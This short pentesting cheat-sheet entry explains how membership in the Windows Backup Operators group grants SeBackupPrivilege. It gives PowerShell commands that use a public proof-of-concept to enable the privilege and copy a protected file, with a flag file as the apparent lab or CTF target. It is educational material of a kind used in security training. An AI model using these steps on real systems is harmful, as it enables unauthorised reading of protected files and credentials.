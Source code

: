 # Backup Operators

## <mark style="color:yellow;">About</mark>

<mark style="color:red;">**Membership**</mark> of this group <mark style="color:purple;">**grants its members**</mark> the <mark style="color:green;">`SeBackup`</mark> and <mark style="color:green;">`SeRestore`</mark> privileges. The <mark style="color:green;">`SeBackupPrivilege`</mark> allows us to <mark style="color:purple;">**traverse any folder and list the folder contents**</mark>. This will let us copy a file from a folder, even if there is no access control entry (ACE) for us in the folder's access control list (ACL). However, we can't do this using the standard copy command. Instead, we need to programmatically copy the data, making sure to specify the **FILE\_FLAG\_BACKUP\_SEMANTICS** flag.

We can use this PoC [**\[LINK\]**](https://github.com/giuliano108/SeBackupPrivilege) to exploit the <mark style="color:green;">`SeBackupPrivilege`</mark>, and copy forbidden files.

## <mark style="color:yellow;">Importing Required Libraries</mark>

```powershell
PS C:\> Import-Module .\SeBackupPrivilegeUtils.dll
PS C:\> Import-Module .\SeBackupPrivilegeCmdLets.dll
```

## <mark style="color:yellow;">Enabling</mark> <mark style="color:yellow;"></mark><mark style="color:yellow;">`SeBackupPrivilege`</mark>

<pre class="language-powershell"><code class="lang-powershell"><strong>PS C:\> Set-SeBackupPrivilege
</strong>PS C:\> whoami /priv # verifying
PS C:\> Get-SeBackupPrivilege # verifying
</code></pre>

## <mark style="color:yellow;">Copying a Protected File</mark>

```powershell
PS C:\> Copy-FileSeBackupPrivilege 'C:\Users\venator17\flag.txt' .\flag.txt
PS C:\> cat .\flag.txt
```
